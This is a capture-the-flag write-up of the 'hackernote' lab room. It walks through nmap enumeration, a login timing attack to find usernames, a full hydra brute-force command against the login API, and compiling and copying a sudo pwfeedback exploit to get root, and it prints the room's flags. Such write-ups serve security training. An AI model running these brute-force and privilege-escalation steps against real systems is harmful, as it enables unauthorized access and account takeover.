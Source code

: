 # hackernote

<img src='hackernote.png' width=200 alt='hackernote'>

A nice room that try to be realistic about web exploitation

## Enumeration

### rustscan + nmap

```
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 10:a6:95:34:62:b0:56:2a:38:15:77:58:f4:f3:6c:ac (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC0njoI1MTN18O8+mhh7M4EpPVA2+5B3OsOtfyhpjYadmUYmS1LgxRSCAyUNFP3iKM7vmqbC9KalD6hUSWmorDoPCzgTuLPf6784OURkFZeZMmC3Cw3Qmdu348Vf2kvM0EAXJmcZG3Y6fspIsNgye6eZkVNHZ1m4qyvJ+/b6WLD0fqA1yQgKhvLKqIAedsni0Qs8HtJDkAIvySCigaqGJVONPbXc2/z2g5io+Tv3/wC/2YTNzP5DyDYI9wL2k2A9dAeaaG51z6z02l6F1zGzFwiwrFP+fopEjhQUa99f3saIgoq3aPOJ/QufS1SiZc6AqeD8RJ/6HWz10timm5A+n4J
|   256 6f:18:27:a4:e7:21:9d:4e:6d:55:b3:ac:c5:2d:d5:d3 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHKcOFLvSTrwsitMygOlMRDEZIfujX3UEXx9cLfrmkYnn0dHtHsmkcUUMc1YrwaZlDeORnJE5Z/NAH70GaidO2s=
|   256 2d:c3:1b:58:4d:c3:5d:8e:6a:f6:37:9d:ca:ad:20:7c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGFFNuuI7oo+OdJaPnUbVa1hN/rtLQalzQ1vkgWKsF9z

80/tcp   open  http    syn-ack Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Home - hackerNote
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS

8080/tcp open  http    syn-ack Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Home - hackerNote
|_http-open-proxy: Proxy might be redirecting requests
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Oh wow! A `Go` server! You don't always get those!

For the investigation we made a simple account and started looking around

For the user enumeration the `password reset` can be used but let's focus on the main thing

Introduction to `timing attack`:

As valid passwords seem to take a bit more time (hashing and processing) for a legitimate user, than wrong user's

We just make requests for multiple users (bruteforce)

And compare the times taken for every requests

The longest times (let's say more than 1 second, or any tolerable margin) are probably valid users

Obviously as we are not savages we will automate this with a script!

I chose the `python` exploit, as I am more comfortable with python

(Still Learning Golang)

It took me maaaad long time (for python is so fast) 

pro tips: you can also filter the names.txt list as you know the username lenght

`└──╼ $awk 'length($1) == 5 { print $1 }' names.txt > reduced.txt`

Adapt the time delay correctly 1s should be enough (slow internet, so I had to filter out false-positives to get the right user)

anyway here we go!

```
└──╼ $python3 exploit.py
Making requests ... 
Requests sent!
Time delta:  31.63563323020935  seconds
[REDACTED] is probably valid!
```
I redacted the user, because you have to suffer too

Now for the password attack we need a "custom" wordlist from the hint!

Get the suggested combinator and get a new wordlist

```
└──╼ $./combinator.bin colors.txt numbers.txt > custom_wordlist.txt 
```

Then use that good ol' hydra (or your favorite login forms bruteforcer)

```
└──╼ $hydra -l [username goes here] -P custom_wordlist.txt 10.10.88.143 http-post-form "/api/user/login:username=^USER^&password=^PASS^:Invalid Username Or Password"

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).


Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-04-04 01:08:53
[DATA] max 16 tasks per 1 server, overall 16 tasks, 180 login tries (l:1/p:180), ~12 tries per task
[DATA] attacking http-post-form://10.10.88.143:80/api/user/login:username=^USER^&password=^PASS^:Invalid Username Or Password
[STATUS] 48.00 tries/min, 48 tries in 00:01h, 132 to do in 00:03h, 16 active
[80][http-post-form] host: 10.10.88.143   login: [username]   password: [REDACTED BOIII]
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-04-04 01:10:12


```

Now we got access! login and grab ssh access too, then get in!

```
user@hackernote:~$ cat user.txt
thm{real_flag_for_free_no_tricks}
```

## Privilege escalation


Remember `pwdfeedback` ? no? google it!

you are even provided the exploit already, so let's just escalate bro


```
└──╼ $gcc pwfeedback.c -o exploit

└──╼ $scp ./exploit user@10.10.88.143:/home/user 
user@10.10.88.143's password: 
exploit 
````
Now witness magic

```
user@hackernote:~$ ./exploit
[sudo] password for user: 
Sorry, try again.
# id
uid=0(root) gid=0(root) groups=0(root),1001(user)

# cat root.txt
thm{true_root_flag_this_time_i_sweaar}

```

## Comments on realism:

>This room was designed to be more realistic and less CTF focused. The logic behind the timing attack is mentioned in OWASP's authentication section, and a fairly similar timing attack existed on OpenSSH, allowing username enumeration

>The privilege escalation for this box is a real world CVE vulnerability, and affected the default configurations of sudo on macOS, Linux Mint and ElementaryOS

I did that room mostly to see how realist it could go and practice password cracking

was not disappointed but I think this is not always real-life applicable

Anyway, that room was just great! 
